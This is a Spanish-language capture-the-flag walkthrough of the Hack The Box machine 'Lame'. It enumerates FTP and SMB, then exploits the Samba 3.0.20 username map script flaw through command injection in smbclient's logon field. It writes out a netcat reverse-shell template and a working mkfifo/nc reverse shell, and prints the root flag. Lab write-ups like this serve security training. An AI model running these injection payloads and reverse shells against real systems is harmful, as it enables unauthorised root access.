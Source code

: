 ip -> 10.10.10.3

```
└─$ nmap -sCV -T5 10.10.10.3 -Pn -v
21/tcp  open  ftp         vsftpd 2.3.4
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
22/tcp  open  ssh         OpenSSH 4.7p1 Debian 8ubuntu1 (protocol 2.0)
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn Samba smbd 3.0.20-Debian (workgroup: WORKGROUP)
```

El puerto Ftp esta abierto para *anonymous*  
```
└─$ ftp 10.10.10.3
Name (10.10.10.3:cucuxii): anonymous
Password: anonymous
ftp> dir
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
226 Directory send OK.
```
No hay nada, asi que probaré el smb   
```
└─$ crackmapexec smb 10.10.10.3
SMB     10.10.10.3   445  LAME  [*] Unix (name:LAME) (domain:hackthebox.gr) (signing:False) (SMBv1:True)
└─$ smbclient -L 10.10.10.3 -N 
Anonymous login successful

	Sharename       Type      Comment
	---------       ----      -------
	print$          Disk      Printer Drivers
	tmp             Disk      oh noes!
	opt             Disk      
	IPC$            IPC       IPC Service (lame server (Samba 3.0.20-Debian))
	ADMIN$          IPC       IPC Service (lame server (Samba 3.0.20-Debian))

└─$ smbclient //10.10.10.3/tmp -N
smb: \> dir
  .ICE-unix                          DH        0  Thu Oct  6 19:17:56 2022
  vmware-root                        DR        0  Thu Oct  6 19:18:26 2022
  .X11-unix                          DH        0  Thu Oct  6 19:18:23 2022
  .X0-lock                           HR       11  Thu Oct  6 19:18:23 2022
  5573.jsvc_up                        R        0  Thu Oct  6 19:19:00 2022
  vgauthsvclog.txt.0                  R     1600  Thu Oct  6 19:17:54 2022
```
Ninguno de esos archivos sirve (son todo logs de VMware y demas)  
No tenemos web, asi que hay que tirar de las versiones de los servicios a ver si hay alguna vulnerable.  

```
└─$ searchsploit Samba 3.0.20-Debian
Samba 3.0.20 < 3.0.25rc3 - 'Username' map script' Command Execution (Metasploit)    | unix/remote/16320.rb
└─$ searchsploit -m unix/remote/16320.rb
```

El exploit tira de metasploit, pero en una linea pone tal que: ```username = "/=`nohup " + payload.encoded + "`" ``` o sea ```"/=`nohup comando`"```
Busque en google -> *smb vuln nohup* y me salio esta [web](https://pentesting.mrw0l05zyn.cl/explotacion/servicios/445-tcp-smb)
```
smbclient //<target>/tmp
logon "./=`nohup nc -e /bin/sh <attacker-IP-address> <listen-port>`"
nc -lvnp <listen-port>
```
```
└─$ smbclient //10.10.10.3/tmp -N 
smb: \> logon "./=`nohup ping -c 1 10.10.14.10`"
Password: 
session setup failed: NT_STATUS_LOGON_FAILURE
└─$ sudo tcpdump -i tun0 icmp -n
20:02:02.562265 IP 10.10.14.10 > 10.10.10.3: ICMP echo reply, id 13336, seq 1, length 64
```
Por tanto ya tenemos RCE
```
smb: \> logon "./=`nohup rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.10 443 >/tmp/f `"
└─$ sudo nc -nlvp 443 
sh-3.2# whoami
root
sh-3.2# cd /root
sh-3.2# cat root.txt
6e54af03943ee4ebcb4785eab908ef0a
```

